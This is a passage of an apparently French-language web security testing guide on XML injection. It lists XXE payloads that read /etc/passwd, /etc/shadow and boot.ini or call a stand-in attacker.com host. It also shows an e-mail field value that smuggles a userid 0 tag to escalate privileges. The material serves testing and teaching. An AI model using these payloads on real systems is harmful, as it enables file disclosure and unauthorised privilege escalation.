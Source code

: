 D'autres tests utiles sont les suivants :

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

### Injection de balises

Une fois la première étape accomplie, le testeur disposera de quelques informations sur la structure du document XML. Ensuite, il est possible d'essayer d'injecter des données et des balises XML. Nous montrerons un exemple de la façon dont cela peut conduire à une attaque par escalade de privilèges.

Considérons l'application précédente. En insérant les valeurs suivantes :

```txt
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com
```

l'application construira un nouveau nœud et l'ajoutera à la base de données XML :

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail>
        <userid>0</userid>
        <mail>s4tan@hell.com</mail>
    </user>
</users>
```
